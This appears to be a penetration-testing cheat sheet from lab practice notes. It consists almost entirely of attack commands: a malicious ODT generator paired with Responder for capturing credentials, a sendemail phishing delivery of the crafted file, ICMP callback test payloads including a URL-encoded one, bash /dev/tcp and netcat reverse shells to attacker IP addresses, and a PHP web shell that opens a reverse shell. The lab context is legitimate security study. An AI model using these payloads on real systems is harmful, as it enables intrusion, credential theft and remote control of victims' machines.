 ```jsx
python badodt.py
sudo responder -I tun0 -v -A
```

Get reverse shell:

We can craft an odt/ods files in libre like here: [ODT from Craft PG Practice](https://www.notion.so/ODT-from-Craft-PG-Practice-862cd2f384bd4c9da5d8512f59a6b8d3?pvs=21) 

via email (like in Hepet):

```jsx
sendemail -f 'jonas@localhost' \
                       -t 'mailadmin@localhost' \
                       -s 192.168.226.140:25 \
                       -u 'Your spreadsheet' \
                       -m 'Here is your requested spreadsheet' \
                       -a test.odt
```

Or just by uploading in a web page like Craft.

# Reverse Shells

[Online - Reverse Shell Generator](https://www.revshells.com/)

Generic way to find if we get packets from target:

```jsx
sudo tcpdump -i tun0 icmp -v
# payload: 
ping -c 5 192.168.45.226
# url encoded payload:
ping%20-c%205%20192.168.45.226
```

## Linux

```jsx
bash -c "bash -i >& /dev/tcp/192.168.45.197/443 0>&1"
```

```jsx
nc 192.168.45.239 4444 -e /bin/bash
```

<aside>
💡 /usr/bin/bash
/usr/bin/nc
/usr/bin/wget
/usr/bin/curl
 **could be the case as well!**

</aside>

```jsx
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.213/443 0>&1'");
?>
```
